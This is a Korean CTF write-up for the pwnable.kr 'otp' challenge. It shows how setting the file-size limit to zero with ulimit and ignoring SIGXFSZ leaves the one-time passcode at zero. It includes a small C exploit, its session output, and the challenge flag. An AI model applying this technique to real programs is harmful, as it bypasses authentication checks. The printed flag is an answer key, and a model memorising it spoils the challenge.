

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

opt.c를 확인하면 인자 값으로 넣은 값과 passcode가 일치하면 FLAG를 획득할 수 있다.

```cpp
... 생략 ...
        if(strtoul(argv[1], 0, 16) == passcode){
                printf("Congratz!\n");
                system("/bin/cat flag");
        }
        else{
                printf("OTP mismatch\n");
        }

        unlink(fname);
        return 0;
}
```

passcode는 /dev/urandom에서 16byte를 읽고, 8byte는 파일이름으로 사용하고 나머지 8byte는 파일의 내용으로 저장한다. 그리고 내용이 passcode가 된다.

```cpp
... 생략 ...
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1) exit(-1);

        if(read(fd, otp, 16)!=16) exit(-1);
        close(fd);

        sprintf(fname, "/tmp/%llu", otp[0]);
        FILE* fp = fopen(fname, "w");
        if(fp==NULL){ exit(-1); }
        fwrite(&otp[1], 8, 1, fp);
        fclose(fp);

        printf("OTP generated.\n");

        unsigned long long passcode=0;
        FILE* fp2 = fopen(fname, "r");
        if(fp2==NULL){ exit(-1); }
        fread(&passcode, 8, 1, fp2);
        fclose(fp2);
... 생략 ...
```

이때, 프로세스의 자원 한도를 설정할 수 있는 ulimit이라는 명령어를 이용하자. -a 옵션을 주면 모든 제한 사항을 살펴볼 수 있다.

ulimit의 -f옵션과 인자 값으로 0을 주어 otp값을 NULL 고정할 수 있겠다.

```sh
otp@pwnable:~$ ulimit -a
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) 1500000
scheduling priority             (-e) 0
file size               (blocks, -f) 120000
pending signals                 (-i) 380913
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1000
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) 300
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
```

ulimit -f 0으로 file size 한도를 0으로 설정 후 file size가 1이상의 파일을 생성 시 SIGXFSZ라는 signal이 발생하고 이 후 코어덤프가 뜬다.

> [CODE BLOCK](https://discuss.codechef.com/t/sigxfsz-runtime-error/2828)

```sh
root@ubuntu:~/pwn# ulimit -f 0
root@ubuntu:~/pwn# touch test
root@ubuntu:~/pwn# vi test
Vim: Caught deadly signal XFSZ
                              Vim: Finished.
File size limit exceeded (core dumped)
```

이 SIGXFSZ를 무시하고 otp를 실행 시 NULL을 인자로 주면 passcode도 NULL이기 때문에 FLAG를 획득할 수 있다.

```sh
otp@pwnable:~$ mkdir /tmp/2honrr_otp
otp@pwnable:~$ cd /tmp/2honrr_otp
otp@pwnable:/tmp/2honrr_otp$ vi exploit.c
otp@pwnable:/tmp/2honrr_otp$ gcc -o exploit exploit.c
```

```cpp
#include<stdio.h>
#include<unistd.h>
#include<signal.h>
int main(void){
        signal(SIGXFSZ,SIG_IGN);
        chdir("/home/otp");
        char *argv[]={"./otp","\x00",NULL};
        char* env[] = {NULL};
        execve("./otp",argv, env);
}
```

```sh
otp@pwnable:/tmp/2honrr_otp$ ulimit -f 0
otp@pwnable:/tmp/2honrr_otp$ ./exploit
OTP generated.
Congratz!
Darn... I always forget to check the return value of fclose() :(
```


# **FLAG**

**Darn... I always forget to check the return value of fclose() :(**